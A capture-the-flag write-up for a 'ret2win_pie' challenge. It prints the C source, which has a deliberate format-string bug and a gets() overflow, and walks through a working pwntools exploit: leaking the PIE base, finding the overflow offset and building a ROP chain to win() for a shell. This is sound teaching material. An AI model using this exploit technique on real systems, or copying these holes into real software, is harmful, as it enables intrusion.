








## Challenge Description


## Solution

The challenge was very simple and I managed to solve it in under 10 minutes (and also 🩸). In this challenge, we were provided with the source code i.e.:

```c:ret2win_pie.c
#include<stdio.h>
#include<stdlib.h>

// gcc ret2win_pie.c -o ret2win_pie -fno-stack-protector

__attribute__((constructor))
void ignore_me(){
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
}

void win(long arg1){
	char *cmd = "/bin/sh";

	if (arg1 == 0xdeadbeefcafebabe){
		puts("Congrats!!!");
		execve(cmd, NULL, NULL);
	} 

	else
		puts("Forgot ROP. That's sad :<");
}

int main(int argc, char **argv, char **environ){
	char shot[0x60];

	puts("Aim and hit the bull's eye");
	fgets(shot, sizeof(shot), stdin);
	printf(shot);

	puts("Sad you missed it. Try one more time");
	gets(shot);
}
```

Okay, so, `(thankfully)`, the challenge was not one-shot as I am VERY VERY bad with format strings. We are given a fsb, that we can use to leak the addresses from the stack and then, a simple `gets` buffer overflow to jump to `win`, whilst also providing the argument i.e. `0xdeadbeefcafebabe`.

## Leaking the PIE-base

The exploit was fairly simple. When messing around format strings, I wrote a simple cli tool in python and made a function that I very often use that generates format string patterns for me. You can find the script on this [link](https://gist.github.com/TheFlash2k/2ee4650c3fc850caceb558ef82fa9bd6) (do leave a star if you like it ;))

So, the exploit for this part was fairly, simple.

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

def create_fmt(start: int, end: int = 0, atleast: int = 10, max_len: int = -1, with_index: bool = False, specifier: str = "p", seperator: str = '|') -> bytes:
    end = start+atleast if end == 0 else end
    fmt = "{seperator}%{i}${specifier}" if not with_index else "{seperator}{i}=%{i}${specifier}"
    rt = ""
    for i in range(start, end+1): rt += fmt.format(i=i, specifier=specifier, seperator=seperator)
    if max_len <= 0: return rt.encode()
    rt = seperator.join(rt[:max_len].split(seperator)[:-1]) if rt[:max_len][-1] != specifier else rt[:max_len]
    return rt.encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")


fmt = create_fmt(1, 30, with_index=True)
io.sendlineafter(b"eye", fmt)

io.interactive()
```

Now, on running this exploit:



We passed in `30`, but the stdout only printed `uptil` 12. Let's attach GDB, and see what exactly is memory mapping as we need a `PIE` leak.



Now, what we need is a leak that corresponds to PIE, i.e. `0x56xxxxxxxx`, so. Let's change the function call:

```diff
- fmt = create_fmt(1, 30, with_index=True)
+ fmt = create_fmt(13, 22, with_index=True)
```



Let's increase this:

```diff
- fmt = create_fmt(13, 22, with_index=True)
+ fmt = create_fmt(23, 30, with_index=True)
```



Now, looking at these addresses, we can see that, the address at `27th` position corresponds to what looks like `PIE` leak. Let's see this address in GDB.



This address corresponds to the beginning of the main function.

> *NOTE*: During the compeition, I was using my laptop that had the latest version of Arch with latest libc, for this tutorial, I am using Ubuntu 20.04, and the server was also using the latest ubuntu version, so, on my laptop the offset I got was `25` and that syncronized with the remote instance. The leak was for `main` so that was constant, so; instead of `27`, I will be using `25` as my offset in all of my payloads.

So, now, we have a pie-leak. Let's align our elf as well so we can use pwntools' power easily:

```py:exploit.py
fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)
io.interactive()
```

## Finding the offset

Well, we've done this thousands of time, so, i'll just skim through this, pass random data to the first input, send cyclic pattern to the second input and check the offset:



The offset came out to be `104`. So, let's note it down.

## Ret2Win

Now, I firstly thought of just jumping past the `arg1 == 0xdeadbeefcafebabe` check however, the `cmd` was declared before this meaning, even if I could jump, I wouldn't be able to have the correct argument in the rdi register to be passed to the `execve` syscall. So, the payload for this was simple. I used `ROP` from pwntools

```py:exploit.py
rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)
```

Running this, I got the shell.



Final exploit that I used was:

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)

rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)

io.interactive()
```

Running this exploit against remote:



